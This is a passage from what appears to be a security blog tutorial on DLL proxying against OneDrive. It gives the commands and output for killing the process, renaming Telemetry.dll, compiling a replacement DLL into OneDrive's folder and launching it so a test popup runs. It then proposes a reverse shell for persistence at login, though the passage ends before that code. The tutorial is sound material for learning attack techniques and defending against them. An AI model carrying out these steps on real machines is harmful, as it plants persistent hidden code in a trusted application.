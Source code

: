Now, we will try to compile the generated code on a windows box and see if we will manage to run our simple popup 'payload' without crashing OneDrive. First, let's make sure that OneDrive is not running.

<div class="language-plaintext highlighter-rouge">
<div class="highlight">
<pre class="highlight">
<code>c:\><span class="ow">taskkill /IM "OneDrive.exe" /F</span>
SUCCESS: The process "OneDrive.exe" with PID 4864 has been terminated.
</code></pre></div></div>

Then, let's store the original `Telemetry.dll` as `TelemetryOrig.dll` in OneDrive's directory.

<div class="language-plaintext highlighter-rouge">
<div class="highlight">
<pre class="highlight">
<code>c:\><span class="ow">copy C:\Users\IEUser\AppData\Local\Microsoft\OneDrive\22.191.0911.0001\Telemetry.dll C:\Users\IEUser\AppData\Local\Microsoft\OneDrive\TelemetryOrig.dll</span>
        1 file(s) copied.
</code></pre></div></div>

And finally we'll compile our new code and start OneDrive.

<div class="language-plaintext highlighter-rouge">
<div class="highlight">
<pre class="highlight">
<code>c:\Users\IEUser\dllp><span class="ow">cl dll.c /link /dll /out:C:\Users\IEUser\AppData\Local\Microsoft\OneDrive\Telemetry.dll</span>
Microsoft (R) C/C++ Optimizing Compiler Version 19.33.31630 for x64
Copyright (C) Microsoft Corporation.  All rights reserved.

dll.c
Microsoft (R) Incremental Linker Version 14.33.31630.0
Copyright (C) Microsoft Corporation.  All rights reserved.

/out:dll.exe
/dll
/out:C:\Users\IEUser\AppData\Local\Microsoft\OneDrive\Telemetry.dll
dll.obj
   Creating library C:\Users\IEUser\AppData\Local\Microsoft\OneDrive\Telemetry.lib and object C:\Users\IEUser\AppData\Local\Microsoft\OneDrive\Telemetry.exp

c:\Users\IEUser\dllp><span class="ow">C:\Users\IEUser\AppData\Local\Microsoft\OneDrive\OneDrive.exe</span>
</code></pre></div></div>

This time our MessageBox popup fired and OneDrive did not crash!

![MessageBox fired]({{ "/assets/dll_proxying_popup.png" | relative_url }})

# Trying a different payload

OneDrive starts when user logs in which makes it a good candidate for persistance. Let's try to modify the `ThreadFunc` to give us a reverse shell on OneDrive startup.
